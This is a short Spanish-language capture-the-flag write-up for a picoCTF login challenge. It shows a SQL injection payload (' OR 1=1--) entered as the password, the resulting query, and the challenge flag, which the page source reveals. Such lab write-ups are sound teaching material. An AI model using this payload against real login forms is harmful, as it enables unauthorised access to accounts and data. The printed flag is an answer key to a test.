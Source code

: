 
## Descripción

*Can you login to this website?
Additional details will be available after launching your challenge instance.*

*Try to login [here](http://saturn.picoctf.net:51426/).*

## Pistas

*`admin` is the user you want to login as.*

## Solución

```
### Log In

Username:admin

Password:' OR 1=1-- #Inyeccion sql como contraseña


#entras y te lleva a una pagina de loginphp
username: admin
password: ' OR 1=1--
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1--'

# Logged in! But can you see the flag, it is in plainsight.

#Inspeccionamos la pagina en ver codigo fuente y se encuentra la bandera
|---|
|<pre>username: admin|
||password: &#039; OR 1=1--|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR 1=1--&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|
```

picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

## Notas Adicionales 

*Inyeccion sql*
## Referencias 

http://saturn.picoctf.net:51426/
http://saturn.picoctf.net:58208/login.php